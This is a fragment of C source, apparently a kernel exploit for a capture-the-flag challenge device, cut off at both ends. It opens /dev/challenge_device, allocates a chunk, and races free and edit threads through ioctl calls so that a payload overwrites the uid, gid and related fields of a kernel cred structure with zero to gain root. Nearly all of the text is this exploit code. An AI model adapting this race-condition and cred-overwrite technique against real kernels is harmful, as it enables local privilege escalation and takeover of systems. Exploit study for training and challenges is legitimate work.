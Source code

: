 ```c
    }

    return NULL;
}

void *edit_thread(void *arg) {
    int idx = *(int *)arg;

    // Privilege escalation payload
    // Overwrites uid/gid in cred structure
    unsigned char payload[0x100];
    memset(payload, 0, sizeof(payload));

    // cred structure offsets (adjust for kernel version)
    *(uint32_t *)(payload + 4)  = 0; // uid
    *(uint32_t *)(payload + 8)  = 0; // gid
    *(uint32_t *)(payload + 12) = 0; // suid
    *(uint32_t *)(payload + 16) = 0; // sgid
    *(uint32_t *)(payload + 20) = 0; // euid
    *(uint32_t *)(payload + 24) = 0; // egid

    struct edit_request req = {
        .idx = idx,
        .data = payload,
        .size = sizeof(payload)
    };

    while (!stop_threads) {
        ioctl(fd, CHALLENGE_EDIT, &req);
        usleep(1);
    }

    return NULL;
}

int main() {
    printf("[*] Opening device\n");
    fd = open("/dev/challenge_device", O_RDWR);
    if (fd < 0) {
        perror("open");
        return 1;
    }

    printf("[*] Allocating chunk for exploitation\n");
    struct alloc_request alloc_req = {
        .idx = 0,
        .size = 0x100  // Size of target structure
    };

    if (ioctl(fd, CHALLENGE_ALLOCATE, &alloc_req) < 0) {
        perror("allocate");
        return 1;
    }

    printf("[*] Starting race condition exploit\n");

    int idx = 0;
    pthread_t free_tid, edit_tid;

    // Start racing threads
    pthread_create(&free_tid, NULL, free_thread, &idx);
    pthread_create(&edit_tid, NULL, edit_thread, &idx);

```